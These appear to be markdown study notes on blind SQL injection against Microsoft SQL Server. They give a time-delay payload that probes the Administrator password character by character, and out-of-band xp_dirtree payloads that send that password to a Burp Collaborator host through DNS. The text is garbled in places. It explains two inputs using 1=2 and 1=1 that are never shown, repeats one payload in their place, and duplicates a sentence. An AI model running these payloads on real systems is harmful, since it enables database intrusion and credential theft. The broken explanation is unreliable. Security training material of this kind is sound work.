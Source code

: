 ```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

- The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.
- Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

---
### Exploiting blind SQL injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques
- The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query
- In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control
- A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.
- The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain: ``'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`` 
- Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example: ``'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--``
- This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup. Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.
--- 
###  Examining the database in SQL injection attacks

- Different databases provide different ways of querying their version.
- The queries to determine the database version for some popular database types are as follows:

|   |   |
|---|---|
|Database type|Query|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|
